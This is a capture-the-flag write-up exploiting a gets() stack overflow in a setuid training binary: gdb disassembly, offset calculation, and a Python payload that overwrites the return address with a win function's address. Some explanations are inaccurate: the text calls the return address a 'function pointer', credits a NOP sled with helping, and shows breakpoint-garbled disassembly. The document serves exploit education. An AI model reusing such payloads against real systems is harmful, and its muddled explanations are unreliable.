

# ex04

### Objective
The goal of this challenge is to change the code flow of the binary and see the message "code flow successfully changed".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=7ae0e77eaa3013bd65288c9201af0a731611fd8f, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    gets
    puts
    __libc_start_main
    GLIBC_2.0
    PTRh 
    [^_]
    code flow successfully changed
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `gets` function call, which is used to read input into a buffer, and a function pointer that is later called.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048408 <+0>:     push   %ebp
       0x08048409 <+1>:     mov    %esp,%ebp
       0x0804840b <+3>:     and    $0xfffffff0,%esp
       0x0804840e <+6>:     sub    $0x50,%esp
       0x08048411 <+9>:     int3   
       0x08048412 <+10>:    inc    %esp
       0x08048413 <+11>:    and    $0x10,%al
       0x08048415 <+13>:    mov    %eax,(%esp)
       0x08048418 <+16>:    call   0x804830c <gets@plt>
       0x0804841d <+21>:    leave  
       0x0804841e <+22>:    ret    
    End of assembler dump.
    ```

3. **Identify the Target Function**:
    - We identified a `win` function in the binary that prints the success message "code flow successfully changed".

    ```sh
    (gdb) info functions
    (gdb) disassemble win
    ```

    **Disassembly of `win`**:
    ```assembly
    Dump of assembler code for function win:
       0x080483f4 <+0>:     push   %ebp
       0x080483f5 <+1>:     mov    %esp,%ebp
       0x080483f7 <+3>:     sub    $0x18,%esp
       0x080483fa <+6>:     movl   $0x80484e0,(%esp)
       0x08048401 <+13>:    call   0x804832c <puts@plt>
       0x08048406 <+18>:    leave  
       0x08048407 <+19>:    ret    
    End of assembler dump.
    ```

    - The address of the `win` function is `0x080483f4`.

4. **Determine Buffer Size and Offset**:
    - The buffer starts at `ESP + 16` (from `lea 0x10(%esp), %eax`).
    - The offset to reach the return address: `0xbfcd0e1c - (0xbfcd0dc0 + 16) = 76 bytes`.

5. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the function pointer to point to the `win` function.

    ```python
    import struct, base64

    buffer_size = 76  # Updated buffer size
    nop_sled = b"\x90" * 16
    target_address = 0x080483f4  # Address of the win function

    payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address)
    encoded_payload = base64.b64encode(payload).decode("ascii")
    print(encoded_payload)
    ```

6. **Execute the Binary with the Payload**:
    - We used the following commands to set the payload as an environment variable and run the binary.

    ```sh
    payload=$(python -c 'import struct, base64; buffer_size = 76; nop_sled = b"\x90" * 16; target_address = 0x080483f4; payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address); encoded_payload = base64.b64encode(payload).decode("ascii"); print(encoded_payload)')
    export PAYLOAD=$(echo $payload | base64 --decode)
    echo -e $PAYLOAD | ./bin
    ```

### Difficulties Encountered

- **Initial Payload Issues**:
    - Initially, the payload caused an "Illegal instruction" error. This was resolved by ensuring the payload length and structure were correct.

- **Buffer Size Calculation**:
    - Determining the correct buffer size and offset to overwrite the return address required careful inspection of the stack and memory layout using GDB.

- **NOP Sled Usage**:
    - Using a NOP sled helped ensure that the execution flow correctly reached the target function even if the exact address wasn't initially accurate.

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    code flow successfully changed
    Segmentation fault
    ```


### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct, base64

buffer_size = 76  # Updated buffer size
nop_sled = b"\x90" * 16
target_address = 0x080483f4  # Address of the win function

payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address)
encoded_payload = base64.b64encode(payload).decode('ascii')
print(encoded_payload)
```